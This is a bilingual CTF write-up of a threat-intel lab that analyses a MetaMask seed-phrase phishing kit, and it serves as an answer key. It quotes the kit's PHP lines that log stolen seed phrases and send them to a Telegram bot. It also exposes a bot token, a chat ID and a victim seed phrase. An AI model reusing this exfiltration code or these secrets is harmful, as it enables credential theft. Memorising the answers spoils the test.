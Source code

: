 +++
title = "GrabThePhisher - Cyberdefenders (Easy)"
+++

###### Category: Threat Intel

[link del laboratorio GrabThePhisher](https://cyberdefenders.org/blueteam-ctf-challenges/grabthephisher/)

---

## Descargar laboratorio y moverlo a la máquina virtual REMnux

### unzip lab

```bash
7z x 95-GrabThePhisher.zip -pcyberdefenders.org
```
---


## Preguntas

### Q1

Which wallet is used for asking the seed phrase?

¿Qué monedero se utiliza para pedir la frase semilla?

![first question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab1.png)

#### Respuesta

`Metamask`

### Q2

What is the file name that has the code for the phishing kit?

¿Cuál es el nombre del archivo que contiene el código del kit de phishing?

#### Respuesta

`metamask.php`

### Q3

In which language was the kit written?

¿En qué lenguaje fue desarrollado el kit?


#### Respuesta

`php`


### Q4


What service does the kit use to retrieve the victim's machine information?

¿Qué servicio utiliza el kit para recuperar la información de la máquina de la víctima?


![fourth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab2.png)

#### Respuesta

`sypex geo`

### Q5

How many seed phrases were already collected?

¿Cuántas frases con semilla se han recopilado ya?

*En el código se puede ver que las frases semilla se escriben en un archivo log.txt*

```php
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND); 
```

![fifth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab3.png)

#### Respuesta

`3`

### Q6

Write down the seed phrase of the most recent phishing incident

Escriba la frase semilla del incidente de phishing más reciente

#### Respuesta

```bash
father also recycle embody balance concert mechanic believe owner pair muffin hockey 
```

### Q7

Which medium had been used for credential dumping?

¿Qué medio se había utilizado para el robo de credenciales?

*Línea de código presente en el archivo metamask.php*

```php
$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html"; 
```

#### Respuesta

`telegram`

### Q8

What is the token for the channel?

¿Cuál es el token del canal?

*Línea de código presente en el archivo metamask.php*

```php
$token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

#### Respuesta

`5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`


### Q9

What is the chat ID of the phisher's channel?

¿Cuál es el ID de chat del canal del autor del phishing?

*Línea de código presente en el archivo metamask.php*

```php
$id = "5442785564"; 
```

#### Respuesta

`5442785564`

### Q10

What are the allies of the phish kit developer?

¿Cuáles son los aliados del desarrollador del kit de phishing?


*Comentario encontrado en el código fuente del archivo metamask.php*

```php
/*

 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
*/  
```

#### Respuesta

`j1j1b1s@m3r0`

### Q11

What is the full name of the Phish Actor?

¿Cuál es el nombre completo del creador del phishing?

```bash
curl https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat\?chat_id\=5442785564 | jq 
```


```bash
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ],
    "max_reaction_count": 11,
    "accent_color_id": 6
  }
}  
```

#### Respuesta

`Marcus Aurelius`


### Q12

What is the username of the Phish Actor?

¿Cuál es el nombre de usuario del creador del phishing?

```bash  
"active_usernames": [
      "pumpkinboii"
    ],
```

#### Respuesta

`pumpkinboii`
